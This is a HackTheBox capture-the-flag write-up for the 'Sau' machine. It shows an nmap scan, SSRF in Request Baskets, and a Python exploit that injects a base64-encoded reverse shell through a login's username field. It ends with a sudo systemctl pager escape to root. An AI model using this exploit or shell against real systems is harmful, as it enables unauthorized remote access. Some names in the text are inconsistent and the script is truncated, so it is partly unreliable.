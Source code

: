 # SAU-HTB

### NMAP SCAN:
```
PORT      STATE    SERVICE        VERSION
22/tcp    open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
33/tcp    filtered dsp
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Fri, 22 Sep 2023 17:33:44 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Fri, 22 Sep 2023 17:33:11 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Fri, 22 Sep 2023 17:33:12 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.80%I=7%D=9/22%Time=650DCFD7%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Fri,\x2022\x20Sep\x20
SF:2023\x2017:33:11\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Fri,\x2022\x20Sep\x20
SF:2023\x2017:33:12\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options
SF::\x20nosniff\r\nDate:\x20Fri,\x2022\x20Sep\x202023\x2017:33:44\x20GMT\r
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20nam
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
SF:se\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.13 seconds
```
- Here the http port is filtered, so we checking other ports 55555 open port therefore checking it opens a 
`Request Baskets` web page which shows that it is a Request Buckets v1.2.1, which has a `SSRF (SERVER SIDE REQUEST FORGUERY)`

### SSRF in Request Baskets v1.2.1
- SSRF is a web-based vulnerability where the requests are made by the server, this is a kind of vulnerability where the requests made by user are sent as the requests by the server by using this we access the port 80 of the box

  ![img](https://github.com/rohithvarma444/HackTheBox/blob/main/screenshots/Screenshot%20from%202023-09-22%2023-51-32.png)
### MagicBricks v0.53 (RCE)
```
import sys
import os
import base64

def main():
    listening_IP = None
    listening_PORT = None
    target_URL = None

    if len(sys.argv) != 4:
        print("Error. Needs listening IP, PORT, and target URL.")
        return -1

    listening_IP = sys.argv[1]
    listening_PORT = sys.argv[2]
    target_URL = sys.argv[3]
    print("Running exploit on " + str(target_URL))
    curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
    payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
    encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
    print("encoded payload is", encoded_payload)
    command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
    os.system(command)

if __name__ == "__main__":
```

The username in this login page is weakly sanitized so that we execute a reverse shell to my pc.This py script takes three parameters of my_ip, my_port, payload.
`python3 sau.py 10.10.14.53 1234 http://10.10.11.224:55555/60z0p86`

### PRIVILAGE ESCALATION 
- While checking for the sudo permissions of puma we got that puma can execute  `systemctl status trails.service` 
 ```
 sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
```

![img](https://github.com/rohithvarma444/HackTheBox/blob/main/screenshots/Screenshot%20from%202023-09-22%2023-52-35.png)

- Systemctl command is runned as a root user and then we type `!sh` to get the root shell.


